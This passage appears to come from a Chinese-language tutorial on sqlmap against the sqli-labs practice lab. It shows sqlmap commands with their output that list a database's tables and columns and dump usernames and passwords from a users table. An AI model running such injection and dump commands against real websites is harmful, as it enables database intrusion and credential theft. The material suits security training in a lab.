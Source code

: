   **参数解读：**
  
  - **-u**：指定测试的 url
  - **--batch**：使用所有默认选项
  - **--dbs**：获取所有数据库
  
  ### 2. 获取指定数据库的所有表
  
  ```bash
  Input:
  sqlmap -u "http://192.168.1.200:9080/Less-1/?id=1" --batch -D security --tables
  
  Output:
  Database: security                                                                                                                                         
  [4 tables]
  +----------+
  | emails   |
  | referers |
  | uagents  |
  | users    |
  +----------+
  ```
  
  ### 3. 获取指定表的所有列名
  
  ```bash
  Input:
  sqlmap -u "http://192.168.1.200:9080/Less-1/?id=1" --batch -D security -T users --columns
  
  
  Output:
  Database: security                                                                                                                            Table: users
  [3 columns]
  +----------+-------------+
  | Column   | Type        |
  +----------+-------------+
  | id       | int(3)      |
  | password | varchar(20) |
  | username | varchar(20) |
  +----------+-------------+
  ```
  
  ### 4. 获取指定列的值
  
  ```bash
  Input:
  sqlmap -u "http://192.168.1.200:9080/Less-1/?id=1" --batch -D security -T users -C "username,password" --dump  
  
  
  Output:
  Database: security                                                                                                                            Table: users
  [14 entries]
  +----------+----------+
  | username | password |
  +----------+----------+
  | Dumb     | password |
  | Angelina | password |
  | Dummy    | password |
  | secure   | password |
  | stupid   | password |
  | superman | password |
  | batman   | password |
  ```